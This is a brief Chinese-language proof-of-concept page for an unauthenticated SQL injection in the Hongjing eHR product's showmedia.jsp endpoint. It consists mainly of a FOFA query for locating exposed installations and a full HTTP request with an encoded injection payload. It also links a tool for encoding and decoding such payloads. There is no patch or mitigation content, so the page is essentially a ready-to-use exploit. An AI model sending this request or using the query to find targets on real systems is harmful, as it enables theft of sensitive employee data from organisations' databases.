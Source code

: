## 宏景eHR-showmedia.jsp存在SQL注入漏洞

宏景eHR-showmedia.jsp存在SQL注入漏洞，未经过身份认证的远程攻击者可利用此漏洞执行任意SQL指令，从而窃取数据库敏感信息。

## fofa

```
app="HJSOFT-HCM"
```

## poc

```
GET /train/resource/course/showmedia.jsp?a_code&r5100=RzvoYYlxoMjNIPAATTP2HJBPAATTPGGqY4XJPloJ5D5mnYCLzn1uPAATTP2HJBPAATTPQPnPAATTP2HJBPAATTPXdzNJ8pj7I9Y5s1xDAUfUx HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64MHhzZWM=) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

需要用到工具加解密payload

https://github.com/vaycore/HrmsTool